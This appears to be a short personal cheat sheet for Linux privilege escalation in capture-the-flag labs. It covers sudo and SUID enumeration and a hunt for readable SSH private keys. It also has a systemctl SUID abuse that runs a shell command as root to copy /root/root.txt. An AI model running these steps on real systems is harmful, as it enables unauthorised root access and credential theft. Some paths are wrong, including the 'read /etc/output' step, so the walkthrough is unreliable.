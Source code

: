 ```yaml
---
pinned: true
tags: [Tips]
title: Linux Privilege Escalation Tips
created: '2020-05-03T16:33:51.947Z'
modified: '2020-05-16T22:27:21.749Z'
---
```


# Linux Privilege Escalation Tips

See the permissions that the user has to execute **sudo**

```
sudo -l
```

---

Search for files owned by a given user starting on / and redirect the errors to /dev/null

```
find / -user <username> -type f 2>/dev/null
```

---

Search for files with the SUID bit enabled starting on / and redirect the errors to /dev/null

```
find / -perm /4000 2>/dev/null
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```

---

Search for readable SSH private keys (`id_rsa`) in all the users directories

```
find / -name id_rsa -type f -exec ls -ld {} \; 2>/dev/null
```

### SUID

#### Systemctl

[GTFOBins - Systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

Systemd initializes user space components that run after the Linux kernel has booted, as well as continuously maintaining those components throughout a system’s lifecycle. These tasks are known as units, and each unit has a corresponding unit file. We can create our own unit file and let systemd start it. Normally systemctl will look for unit files in the default folder, which is /etc/system/systemd. But we don’t have the permission to write to that folder. Instead, we can use an environment variable that will read the contents of **/root/root.txt** and write its output to **/tmp/output** file.

First we create a variable which holds a unique file.

```
eop=$(mktemp).service
```

Then we create an unit file and write it into the variable.

```
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop
```

Inside the unit file we entered a command which will let shell execute the command cat and redirect the output of cat to a file called output in the folder tmp. And finally we use the /bin/systemctl program to enable the unit file.

```
/bin/systemctl link $eop
/bin/systemctl enable --now $eop
```

Finally we read the contents of the file **/etc/output**

## Automatic PE scripts

PEASS (Privilege Escalation Awesome Scripts SUITE)

[PEASS Github](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
